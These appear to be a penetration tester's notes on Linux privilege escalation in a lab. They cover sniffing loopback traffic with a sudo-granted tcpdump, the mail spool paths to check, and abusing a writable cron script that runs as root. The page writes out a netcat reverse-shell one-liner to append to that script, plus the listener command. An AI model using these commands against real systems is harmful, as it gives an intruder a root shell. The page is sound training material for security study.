 >[!code]- Network traffic
>`tcpdump` is the defacto command line standard for packet capture, but it requires admin privileges.
>
>Sometimes, however, certain accounts are given exclusive access to `tcpdump` for troubleshooting purposes. This would be apparent via listing the sudo permissions with `sudo -l`.
>
>---
>Capture traffic in and out of the loopback address:
>```bash
>joe@debian-privesc:~$ sudo tcpdump -i lo -A
>```

>[!code]- Mail
>###### Enumerate mail for sensitive information
>```powershell
>/var/mail
>/var/spool/mail
>```
## Exploits
#### Cron jobs

>[!exploit]- Exploit - Misconfigured cron jobs running as root could afford privilege escalation 
>If a cron job is ran in the context of a root user, and it executes a file with insecure permissions, we could alter that file to have custom code execution by the root user.

>[!code]- Find a vulnerable cron job
>See the section on enumerating [](.md#^d1325a|scheduled%20tasks). Look for a job that is running a file that can be altered and is running as an elevated user.

>[!success] We find the _user_backups.sh_ file is writable and located in the current user's home directory and is scheduled to be run as _root_ every minute.

>[!code]- Edit the file to run malicious code (reverse shell)
>The vulnerable file:
>```bash
>joe@debian-privesc:~$ ls -lah /home/joe/.scripts/user_backups.sh
>```
>Add malicious code (reverse shell) to the end:
>```bash
>joe@debian-privesc:~$ cd .scripts
>joe@debian-privesc:~/.scripts$ echo >> user_backups.sh
>joe@debian-privesc:~/.scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh
>```

>[!code]- Setup a listener and wait for cron job to run
>```bash
>kali@kali:~$ nc -lnvp 1234
>```
#### Insecure /etc/passwd permissions
